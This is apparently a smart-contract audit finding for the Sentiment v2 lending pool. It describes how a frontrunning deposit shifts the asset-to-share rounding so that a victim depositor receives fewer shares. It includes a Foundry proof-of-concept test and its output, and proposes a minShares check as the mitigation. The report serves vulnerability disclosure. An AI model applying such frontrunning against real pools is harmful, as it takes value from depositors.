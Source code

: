 Polished Raspberry Huskie

Medium

# Malicious user can cause pool depositors to receive fewer shares than expected through inflation attack

### Summary

The `deposit` function allows a malicious user to frontrun deposit transactions, causing subsequent depositors to receive fewer shares than expected. This is possible because the `_convertToShares` function can be manipulated by altering the pool's asset-to-shares ratio just before a victim's deposit, leading to a modification in the division precision during their share allocation computation.

### Root Cause

https://github.com/sherlock-audit/2024-08-sentiment-v2/blob/main/protocol-v2/src/Pool.sol#L304-L331

https://github.com/sherlock-audit/2024-08-sentiment-v2/blob/main/protocol-v2/src/Pool.sol#L282

The `deposit` function relies on the `_convertToShares` function to calculate the number of shares corresponding to a deposit. However, this calculation is based on the current ratio of `totalDepositAssets` to `totalDepositShares`. The division precision can be manipulated if a malicious user deposits assets just before the victim.
There is already a partial protection against it to make sure the victim does not receive 0 shares. But the victim can still receive less shares than expected.

### Internal pre-conditions

The pool's `asset` and `share` values must not be in a 1:1 ratio, meaning `totalDepositAssets` and `totalDepositShares` must differ due to previous interactions with the pool (e.g., deposits, borrows, and accrued interest).

### External pre-conditions

1. The `maliciousUser` must be able to monitor and detect upcoming deposit transactions from other users.
2. The `maliciousUser` must be able to frontrun these transactions by submitting their own deposit.

### Attack Path

1. The `maliciousUser` monitors the network and detects a planned deposit transaction from another user (`user2`).
2. The `maliciousUser` quickly deposits a small amount of assets into the pool before `user2`'s transaction is mined. This alters the pool’s asset-to-shares ratio just before `user2`’s deposit.
3. When `user2`'s deposit is processed, they receive fewer shares than they would have if the `maliciousUser` had not frontrun their transaction.
4. The `maliciousUser` benefits from a more favorable share allocation at the expense of `user2`.


### Impact

The affected depositor suffers a loss in the form of receiving fewer shares than expected. The protocol does not lose funds directly.

### PoC

Add this to the Pool.t.sol test:

```solidity
    function testPOC() public {
        uint256 assets = 100 ;

        //First we need to interact with the protocol to make assets != shares
        //To do so, we need to deposit, borrow and wait for interest
        vm.prank(poolOwner);
        pool.setPoolCap(linearRatePool, type(uint128).max);
        vm.prank(protocolOwner);
        pool.setInterestFee(linearRatePool, 5e17);

        vm.startPrank(user);
        asset1.mint(user, assets);
        asset1.approve(address(pool), assets);
        
        pool.deposit(linearRatePool, assets, user);
        vm.stopPrank();

        vm.prank(registry.addressFor(SENTIMENT_POSITION_MANAGER_KEY));
        pool.borrow(linearRatePool, user, 80 );
        skip(1 days);

        //Now we save the state and do the two cases
        uint256 snapshot = vm.snapshot();

        //Do a normal deposit without being front-run
        vm.startPrank(user2);
        asset1.mint(user2, assets);
        asset1.approve(address(pool), assets);
        
        pool.deposit(linearRatePool, assets, user2);
        console.log("Shares of user2 (normal): ", pool.balanceOf(user2, linearRatePool));
        vm.stopPrank();
        
        //Do a deposit being front run by a malicious user
        vm.revertTo(snapshot);
        address user3 = makeAddr("user3");
        vm.startPrank(user3);
        asset1.mint(user3, 30);
        asset1.approve(address(pool), 30);
        pool.deposit(linearRatePool, 30, user3);
        vm.stopPrank();

        vm.startPrank(user2);
        asset1.mint(user2, assets);
        asset1.approve(address(pool), assets);
        pool.deposit(linearRatePool, assets, user2);
        console.log("Shares of user2 (with a front run): ", pool.balanceOf(user2, linearRatePool));
        vm.stopPrank();
    }
```

Here is the console result when `forge test --match-test POC`:

```bash
  Shares of user2 (normal):  99
  Shares of user2 (with a front run):  98
```



### Mitigation

To mitigate this issue, the protocol could add an input variable on the deposit function (for example: `uint256 minShares`).

When calculating the receive shares, if it is less than `minShares`, it reverts. In that way, the user make sure to receive expected shares.